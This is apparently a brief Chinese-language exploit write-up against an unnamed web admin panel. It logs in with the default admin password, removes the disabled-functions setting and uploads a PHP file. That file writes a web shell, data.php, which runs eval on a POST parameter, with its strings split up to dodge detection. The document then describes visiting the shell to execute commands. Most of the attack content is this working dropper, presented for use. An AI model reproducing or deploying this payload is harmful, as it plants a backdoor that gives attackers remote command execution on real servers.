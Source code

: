 使用默认帐号密码admin登入后台，目前最新版本（2023年8月15日）：
![[Pasted image 20230815173112.png]]
将系统禁用函数删除：
![[Pasted image 20230815173300.png]]
文件上传处上传payload：
![[Pasted image 20230815173424.png]]
payload:
```php
<?php
$fp=fopen('data.php','w');
fwrite($fp,'<?php ');
fwrite($fp,'eva');
fwrite($fp,'l($_PO');
fwrite($fp,'ST[');
fwrite($fp,'shell])?>');
fclose($fp);
echo 'ok';
?>
```

访问payload：
![[Pasted image 20230815175049.png]]
目录下会生成木马文件，访问可执行命令：
![[Pasted image 20230815175148.png]]

